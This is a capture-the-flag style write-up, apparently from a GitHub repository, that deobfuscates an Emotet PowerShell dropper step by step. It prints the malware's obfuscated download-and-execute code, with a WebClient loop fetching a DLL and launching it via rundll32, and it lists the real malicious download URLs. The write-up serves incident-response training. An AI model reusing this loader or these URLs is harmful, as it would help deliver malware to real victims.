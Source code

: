 # Malicious Power Shell Analysis

Recently the networks of a large company named GothamLegend were compromised after an employee opened a phishing email containing malware. The damage caused was critical and resulted in business-wide disruption.  <br>

GothamLegend had to reach out to a third-party incident response team to assist with the investigation. You are a member of the IR team - all you have is an encoded Powershell script. Can you decode it and identify what malware is responsible for this attack? 

# Questions

## What security protocol is being used for the communication with a malicious domain? 

First thing first we need to decode the b64 string present in the **ps_script.txt** file. I copied the payload to a file (**enc**) and piped it to the base64 program, thus generating the **decoded1** file

```bash
cat enc | base64 -d > decoded1
```

The powershell code is mostly reconstructed with format strings and word casing (for example: eXeCUte) because powershell is case insensitive so it does not affect the payload. <br>

We can see directly the usage of TLS
```
sEcuRITYproT`o`c`ol" = ('T'+('ls'+'12'))
```
**Answer:** TLS 1.2

## What directory does the obfuscated PowerShell create? (Starting from \HOME\)

If we look around (or use the search function in a text editor) we can see the presence of two "HOME" words (luckily they malware guy did not encode this one). The important one is the second and we can see that it creates a path with concatenation and string formating assigning the result of it to a variable

```ps1
$Imd1yck=$HOME+((('UO'+'H'+'Db_')+'b'+('h3'+'0UO')+('HY'+'f')+('5be5'+'g'+'UOH'))."ReP`lACe"(('U'+'OH'),[StrInG][chAr]92))
```

If we use the powershell interface for linux, we can see the name it resolves to

```ps1
> $Imd1yck
(..)\Db_bh30\Yf5be5g\
```

**Answer:** \HOME\Db_bh30\Yf5be5g\

## What file is being downloaded (full name)?

So by reading the payload (yet obfuscated) we can see, close to the above folder creation, a **.dll** file being create in that folder too. <br>

```ps1
$Swrp6tc = (('A6'+'9')+'S');$X27H=('C3'+'3O');$Imd1yck=$HOME+((('UO'+'H'+'Db_')+'b'+('h3'+'0UO')+('HY'+'f')+('5be5'+'g'+'UOH'))."ReP`lACe"(('U'+'OH'),[StrInG][chAr]92))+$Swrp6tc+(('.'+'dl')+'l');
```

The file name resides in the variable **$Swrp6tc** and, if we use the same approach as before (running the code and see the output), of course in a safe way, we can see the result

**Answer:** A69S.dll

## What is used to execute the downloaded file?

Again, without fully decode the payload (because it is not so obfuscated and is readable), we can see the answer within the **trycatch** inside the **foreach** loop

```ps1
foreach ($Bm5pw6z in $B9fhbyv){try{(&('New'+'-Objec'+'t') SysTem.nEt.WEBcLIeNT)."do`WNl`OaD`FIlE"($Bm5pw6z, $Imd1yck);$Z10L=('A9'+'2Q');If ((&('Ge'+'t-It'+'em') $Imd1yck)."len`G`TH" -ge 35698) {&('r'+'undl'+'l32') $Imd1yck,(('Co'+'nt')+'r'+('ol'+'_RunD'+'L')+'L')."T`OSt`RiNG"();$R65I=('Z'+('09'+'B'));break;$K7_H=('F1'+'2U')}}catch{}}$W54I=(('V9'+'5')+'O')
``` 

More specifically, in the line of code below

```ps1
&('r'+'undl'+'l32')
``` 
**Answer:** rundll32

## What is the domain name of the URI ending in ‘/6F2gd/'

Before the foreach loop the creation of a list-like structure is visible (this list is also used as the enumerator for the loop itself). The name of the variable, using the list, is **$B9fhbyv**
```ps1 
$B9fhbyv=(']'+('a'+'nw[3s://adm'+'int'+'k.c'+'o'+'m/'+'w')+('p-adm'+'in/'+'L/')+'@'+(']a'+'n'+'w[3s')+':'+'/'+'/m'+('ike'+'ge')+('e'+'r'+'inck.')+('c'+'om')+('/c/'+'Y'+'Ys')+'a'+('/@]'+'anw'+'['+'3://free'+'lanc'+'e'+'rw')+('ebdesi'+'gnerh'+'yd')+('er'+'aba')+('d.'+'com/')+('cgi'+'-bin'+'/S')+('/'+'@'+']anw')+('[3'+'://'+'etdog.co'+'m'+'/w')+('p-'+'co')+'nt'+('e'+'nt')+('/n'+'u/@')+(']a'+'nw[3')+'s'+('://'+'www'+'.hintu'+'p.c')+('o'+'m.')+('b'+'r/')+'w'+('p'+'-co')+('n'+'ten')+('t'+'/dE/'+'@]a'+'nw[3://'+'www.')+'s'+('tm'+'arouns'+'.')+('ns'+'w')+('.'+'edu.au/p'+'a'+'y'+'pal/b8')+('G'+'/@]')+('a'+'nw[')+('3:'+'/')+('/'+'wm.mcdeve'+'lop.net'+'/'+'c'+'on'+'t'+'e')+('nt'+'/')+'6'+('F2'+'gd/'))."RE`p`lACe"(((']a'+'n')+('w'+'[3')),([array]('sd','sw'),(('h'+'tt')+'p'),'3d')[1])."s`PLIT"($C83R + $Cvmmq4o + $F10Q);$Q52M=('P'+('0'+'5K'));

foreach ($Bm5pw6z in $B9fhbyv)
```

If we just reconstruct the list in a powershell client, and obviously print it, we can see the answer (below)
```ps1 
> $B9fhbyv
https://admintk.com/wp-admin/L/@https://mikegeerinck.com/c/YYsa/@http://freelancerwebdesignerhyderabad.com/cgi-bin/S/@http://etdog.com/wp-content/nu/@https://www.hintup.com.br/wp-content/dE/@http://www.stmarouns.nsw.edu.au/paypal/b8G/@http://wm.mcdevelop.net/content/6F2gd/
```
**Answer:** wm.mcdevelop.net

## Based on the analysis of the obfuscated code, what is the name of the malware?

Well, this cannot be really answered without a bit of research... 

**Answer:** emotet